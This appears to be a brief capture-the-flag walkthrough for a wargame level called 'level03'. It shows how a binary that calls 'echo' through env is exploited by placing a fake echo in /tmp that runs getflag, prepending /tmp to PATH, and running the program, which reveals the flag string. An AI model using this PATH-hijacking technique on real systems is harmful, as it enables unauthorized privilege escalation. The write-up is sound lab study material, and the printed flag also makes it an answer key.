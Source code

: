 HINT:

ANSWER:
we do strings level03 and see:
/usr/bin/env echo Exploit me
ok let's try to exploit it, we do:
echo getflag > /tmp/echo && chmod +x /tmp/echo
then we need to add it to the path:
PATH=/tmp:$PATH
then we can just start ./level03 and we get:
qi0maab88jeaj46qoumi7maus